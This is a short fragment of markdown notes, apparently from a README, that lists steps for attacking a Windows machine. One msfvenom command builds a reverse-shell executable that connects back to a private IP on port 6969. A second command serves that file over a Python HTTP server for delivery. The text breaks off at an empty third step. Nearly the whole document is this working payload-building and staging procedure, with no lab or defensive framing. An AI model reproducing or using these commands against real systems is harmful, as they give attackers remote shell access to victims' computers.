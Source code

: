 1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=6969 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. 
